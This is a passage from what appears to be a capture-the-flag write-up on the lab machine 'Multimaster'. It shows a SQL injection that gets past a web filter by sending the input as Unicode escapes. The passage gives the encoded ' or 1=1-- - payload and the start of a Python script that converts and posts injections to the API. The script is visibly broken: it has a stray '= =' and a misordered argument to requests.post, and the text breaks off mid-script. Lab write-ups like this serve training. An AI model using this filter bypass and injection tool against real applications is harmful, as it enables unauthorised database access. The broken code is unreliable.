 

Colleague Finder page with search input box

Sending a quote character in the name field results in a "403 Forbidden" being returned. If we encode it as UTF-16 and send the encoded character "\u0027", it comes back with a 200 OK. To confirm that this is injectable, we will send the input "' or 1=1-- -". This will add a clause to the query being used by the application that will always be true and so we would expect all of the results to be returned. To send that, we need to send the encoded form:

"\u0027\u0020\u006f\u0072\u0020\u0031\u003d\u0031\u002d\u002d\u0020\u002d"

Sending this in Burp, we do indeed get all of the results back \(Figure 9-5\).



![Graphical user interface, text, application, email

Description automatically generated](../.gitbook/assets/4%20%289%29.png)



Results of sending the encoded injection ' or 1=1-- -' to Multimaster API endpoint

To enumerate this manually, we are going to write a simple Python 3 script that will set up a command prompt that we can type injections into. The script will take this input and do a POST to the API and then format the response. This will make the entire process much quicker than manually converting the input text and pasting it into Burp. This is the code:

\#!/usr/bin/python3

import requests

import json

from cmd import Cmd

RHOST = "http://multimaster.htb/api/getColleagues"

class Terminal\(Cmd\):

 def \_\_init\_\_\(self\):

 self.prompt = '&gt; '

 Cmd.\_\_init\_\_\(self\)

 def default\(self, args\):

 converted\_cmd = ''

 for i in args:

 converted\_cmd += "\\u00"+hex\(ord\(i\)\).split\('x'\)\[1\]

 print\(f"\[\*\] Sending {converted\_cmd}\n"\)

 data = ="{\"name\": \"" + converted\_cmd + "\"}"

 headers = {'Content-Type': 'application/json;charset=utf-8'}

 response = requests.post\(RHOST, headers=headers, data\)

 json\_response = json.loads\(response.text\)
